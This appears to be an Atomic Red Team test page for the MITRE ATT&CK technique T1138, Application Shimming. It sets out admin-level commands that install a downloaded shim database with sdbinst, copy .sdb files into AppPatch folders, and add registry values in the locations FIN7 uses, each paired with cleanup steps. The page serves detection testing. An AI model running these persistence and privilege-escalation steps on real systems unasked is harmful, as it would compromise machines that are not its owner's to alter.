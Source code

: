 # T1138 - Application Shimming
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1138)
<blockquote>The Microsoft Windows Application Compatibility Infrastructure/Framework (Application Shim) was created to allow for backward compatibility of software as the operating system codebase changes over time. For example, the application shimming feature allows developers to apply fixes to applications (without rewriting code) that were created for Windows XP so that it will work with Windows 10. (Citation: Endgame Process Injection July 2017) Within the framework, shims are created to act as a buffer between the program (or more specifically, the Import Address Table) and the Windows OS. When a program is executed, the shim cache is referenced to determine if the program requires the use of the shim database (.sdb). If so, the shim database uses [Hooking](https://attack.mitre.org/techniques/T1179) to redirect the code as necessary in order to communicate with the OS. 

A list of all shims currently installed by the default Windows installer (sdbinst.exe) is kept in:

* <code>%WINDIR%\AppPatch\sysmain.sdb</code>
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\installedsdb</code>

Custom databases are stored in:

* <code>%WINDIR%\AppPatch\custom & %WINDIR%\AppPatch\AppPatch64\Custom</code>
* <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\custom</code>

To keep shims secure, Windows designed them to run in user mode so they cannot modify the kernel and you must have administrator privileges to install a shim. However, certain shims can be used to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088) (UAC) (RedirectEXE), inject DLLs into processes (InjectDLL), disable Data Execution Prevention (DisableNX) and Structure Exception Handling (DisableSEH), and intercept memory addresses (GetProcAddress). Similar to [Hooking](https://attack.mitre.org/techniques/T1179), utilizing these shims may allow an adversary to perform several malicious acts such as elevate privileges, install backdoors, disable defenses like Windows Defender, etc.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Application Shim Installation](#atomic-test-1---application-shim-installation)

- [Atomic Test #2 - New shim database files created in the default shim database directory](#atomic-test-2---new-shim-database-files-created-in-the-default-shim-database-directory)

- [Atomic Test #3 - Registry key creation and/or modification events for SDB](#atomic-test-3---registry-key-creation-andor-modification-events-for-sdb)


<br/>

## Atomic Test #1 - Application Shim Installation
Install a shim database. This technique is used for privelage escalation and bypassing user access control. Upon execution, "Installation of AtomicShim complete."
will be displayed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_path | Path to the shim databaase file | String | PathToAtomicsFolder&#92;T1138&#92;src&#92;AtomicShimx86.sdb|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sdbinst.exe #{file_path}
```

#### Cleanup Commands:
```cmd
sdbinst.exe -u #{file_path}
```



#### Dependencies:  Run with `powershell`!
##### Description: Shim database file must exist on disk at specified location (#{file_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1138/src/AtomicShimx86.sdb" -OutFile "#{file_path}"
```




<br/>
<br/>

## Atomic Test #2 - New shim database files created in the default shim database directory
Upon execution, check the "C:\Windows\apppatch\Custom\" folder for the new shim database

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item $PathToAtomicsFolder\T1138\bin\T1138CompatDatabase.sdb C:\Windows\apppatch\Custom\T1138CompatDatabase.sdb
Copy-Item $PathToAtomicsFolder\T1138\bin\T1138CompatDatabase.sdb C:\Windows\apppatch\Custom\Custom64\T1138CompatDatabase.sdb
```

#### Cleanup Commands:
```powershell
Remove-Item C:\Windows\apppatch\Custom\T1138CompatDatabase.sdb -ErrorAction Ignore
Remove-Item C:\Windows\apppatch\Custom\Custom64\T1138CompatDatabase.sdb -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Registry key creation and/or modification events for SDB
Create registry keys in locations where fin7 typically places SDB patches. Upon execution, output will be displayed describing
the registry keys that were created. These keys can also be viewed using the Registry Editor.

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1138" -Value "AtomicRedTeamT1138"
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1138" -Value "AtomicRedTeamT1138"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1138" -ErrorAction Ignore
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1138" -ErrorAction Ignore
```





<br/>
